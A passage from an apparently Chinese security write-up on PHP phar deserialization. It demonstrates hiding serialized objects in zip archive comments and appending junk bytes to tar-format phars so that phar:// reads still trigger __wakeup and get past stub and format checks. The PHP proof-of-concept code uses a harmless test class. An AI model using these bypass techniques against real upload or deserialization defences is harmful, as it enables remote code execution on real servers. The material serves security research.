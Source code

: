 虽然zip添加不了脏数据让人大失所望,但是却在[这里](https://www.anquanke.com/post/id/240007)看到了zip却只要将phar的内容写进压缩包注释中，也同样能够反序列化，而且压缩后的zip数据也可以绕过stub检测,但是过不了反序列化数据检测(和Phar执行zip生成格式差不多,但是挺有意思的记一下吧)

```php
<?php
class test{
    public  function __wakeup(){
        var_dump(__FUNCTION__);
    }
}
$phar_file = serialize(new test());
$zip = new ZipArchive();
$res = $zip->open('justzip.zip',ZipArchive::CREATE);
$zip->addFromString('h0cksr.txt', 'file content goes here');
$zip->setArchiveComment($phar_file);
$zip->close();

readfile("phar://justzip.zip");
```

![image-20220915233156762](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-510a72b2e4e657a597b0125023b76e826c6041d5.png)

哪些场景不能解析带脏字符的zip文件呢?

1. Java -jar执行这个带脏字符的jar包时会失败
2. PHP无法解析
3. 7zip无法解析

0x04 tar添加脏数据 -- 可以在文件尾添加脏数据且phar正常解析
=====================================

**对于tar格式**，如果能控制文件头，即可构造合法的tar文件，即使文件尾有垃圾字符

这个测试的话毫无技术要求,直接使用010打开`tar`文件, 然后触发调用可以看到phar反序列化还是被正常执行了

```php
<?php
//class test{
//    public  function __wakeup(){
//        var_dump(__FUNCTION__);
//    }
//}
//$phar=new phar('test.phar');//后缀名必须为phar
//$phar = $phar->convertToExecutable(Phar::TAR);
//$phar->startBuffering();
/*$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub*/
//$obj=new test();
//$phar->setMetadata($obj);//自定义的meta-data存入manifest
//$phar->addFromString("flag.txt","flag{h0cksr}");//添加要压缩的文件
////签名自动计算
//$phar->stopBuffering();
//?>
<?php
class test{
    public  function __wakeup(){
        var_dump(__FUNCTION__);
    }
}
var_dump(
    file_get_contents("compress.zlib://phar://test1.phar.tar/flag.txt")//未修改,读取数据失败,反序列化触发成功
);
var_dump(
    file_get_contents("compress.zlib://phar://test2.phar.tar/flag.txt")//文件头添加内容,读取数据失败,反序列化触发失败
);
var_dump(
    file_get_contents("compress.zlib://phar://test3.phar.tar/flag.txt")//文件尾添加内容,读取数据失败,反序列化触发成功
);
```